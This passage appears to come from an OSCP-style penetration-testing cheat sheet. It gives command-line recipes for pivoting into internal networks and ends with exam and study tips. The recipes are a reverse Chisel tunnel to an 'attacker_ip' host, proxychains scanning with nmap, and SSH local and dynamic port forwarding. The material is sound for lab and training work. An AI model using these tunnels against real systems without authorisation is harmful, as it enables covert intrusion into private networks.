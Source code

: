 #### Pivoting

**Chisel:**

*   **Attacker Machine:**

    ```bash
    ./chisel server -p 8080 --reverse
    ```
*   **Pivot Machine:**

    ```
    chisel.exe client attacker_ip:8080 R:socks
    ```
*   **Proxychains Config (`/etc/proxychains.conf`):**

    ```
    socks5 127.0.0.1 1080
    ```
*   **Scanning through pivot:**

    ```bash
    proxychains nmap 10.10.10.10 -T5 -Pn -sT
    ```

**Pivot via SSH key (Port Forwarding)**

```bash
# Forward local port 9000 to remote web_ip:port through the ssh_ip host
ssh -i root.key -L 9000:web_ip:port user@ssh_ip
# Ex: ssh -i root.key -L9000:10.10.10.75:80 user@10.10.10.73
```

**Pivot via SSH (Dynamic Port Forwarding / SOCKS Proxy)**

```bash
ssh -D 1080 user@pivot_ip
```

* Configure Burp / FoxyProxy to use SOCKS proxy on `127.0.0.1:1080`
* In `/etc/proxychains.conf`, change `socks4` to `socks5` (`127.0.0.1 1080`).

***

### Tips

#### Preparation Tips

* Learn as many techniques as possible so you always have an alternate option.
* "Try harder" doesn't mean trying the same exploit with 200x thread count. It means enumerate harder.

#### Exam Tips

* You have unlimited breaks, use them.
* 24 reverts are plenty.
* The machines are _intentionally_ vulnerable to a _specific_ exploit. Your goal is to find that path. It's often easier than real-world pentesting.
* [ippsec.rocks](http://ippsec.rocks) is a great resource for finding videos on specific services/vulnerabilities.
